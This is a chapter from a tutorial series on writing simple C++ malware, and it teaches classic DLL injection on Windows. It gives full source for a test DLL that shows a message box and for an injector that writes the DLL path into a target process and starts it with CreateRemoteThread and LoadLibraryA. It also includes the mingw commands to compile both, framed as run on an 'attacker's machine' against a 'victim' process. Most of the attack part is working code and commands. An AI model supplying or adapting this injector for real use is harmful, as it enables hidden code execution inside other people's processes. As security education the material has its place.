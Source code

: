 \newpage
\subsection{5. classic DLL injection into the process. Simple C++ malware.}

﷽

![DLL injection](./images/7/2021-09-20_15-01.png){width=400px}    

In this section we will discuss about a classic DLL injection technique which are use debugging API.

About classic code injection I wrote in the previous section.

Firstly, let's go to prepare our DLL.       

There are slight difference in writing C code for `exe` and `DLL`. The basic difference is how you call you code in your module or program. In `exe` case there should be a function called `main` which is being called by the OS loader when it finishes all in initialization if a new process. At this point your program starts its execution when the OS loader finishes its job.

On the other hand with the `DLL`'s when you want to run your program as a dynamic library, it's a slighty different way, so the loader has already created process in memory and for some reason that process needs your DLL or any other DLL to be load it into the process and it might be due to the function your DLL implements.

So *exe need a main function and DLL's need DLLMain function*   
Basically that's the simplest difference.    

For simplicity, we create DLL which just pop-up a message box:    

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

It only consists of `DllMain` which is the main function of DLL library. It doesn't declare any exported functions which is what legitimate DLLs normally do. `DllMain` code is executed right after DLL is loaded into the process memory.   

This is important in the context of DLL Injection, as we are looking for simplest way to execute code in the context of other process. That is why most of malicious Dlls which are being injected have most of the malicious code in `DllMain`. There are ways to force a process to run exported function, but writing your code in `DllMain` is usually the simplest solution to get code execution.   

When run in injected process it should display our message: "Meow from evil.dll!", so we will know that injection was successful. Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![DLL compile](./images/7/2021-09-20_17-01.png){width=400px}    

and put it in a directory of our choice (victim's machine):    
![put DLL](./images/7/2021-09-20_17-09.png){width=400px}

Now we only need a code which will inject this library into the process of our choosing.

In our case we are going talk about classic DLL injection. We allocate an empty buffer of a size at least the length of the path of our DLL from disk. And then we copy the path to this buffer.    

```cpp
/*
* evil_inj.cpp
* classic DLL injection example
* author: @cocomelonc
* https://cocomelonc.github.io/tutorial/
2021/09/20/malware-injection-2.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process ID
  if ( atoi(argv[1]) == 0) {
      printf("PID not found :( exiting...\n");
      return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, 
  FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, 
  rb, 0, NULL);
  CloseHandle(ph);
  return 0;
}

```

It's pretty simple as you can see. It's same as in my classic code injection section. The only difference is we add path of our DLL from disk **(1)** and before we finally inject and run our DLL - we need a memory address of `LoadLibraryA`, as this will be an API call that we will execute in the context of the victim process to load our DLL **(2)**:    

![LoadLibraryA](./images/7/2021-09-20_18-11.png){width=400px}

So finally after we understood entire code of the injector, we can test it.
Compile it:
```bash
x86_64-w64-mingw32-gcc -O2 evil_inj.cpp -o inj.exe
-mconsole -I/usr/share/mingw-w64/include/ -s
-ffunction-sections -fdata-sections -Wno-write-strings
-fno-exceptions -fmerge-all-constants -static-libstdc++ 
-static-libgcc -fpermissive >/dev/null 2>&1
```
![compile injector](./images/7/2021-09-20_18-20.png){width=400px}

Let's first launch a `calc.exe` instance and then execute our program:    

![run injector](./images/7/2021-09-20_18-25.png){width=400px}

To verify our DLL is indeed injected into `calc.exe` process we can use Process Hacker.

![Process Hacker](./images/7/2021-09-22_09-03.png){width=400px}

In another memory section we can see:    
![Process Hacker 2](./images/7/2021-09-22_09-23.png){width=400px}

It seems our simple injection logic worked! This is just a simplest way to inject a DLL to another process but in many cases it is sufficient and very useful.

If you want you can also add function call obfuscation which will be research in the future sections.

[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)    
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)     
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-injection-2)

In the future sections I will try to figure out more advanced code injection techniques.
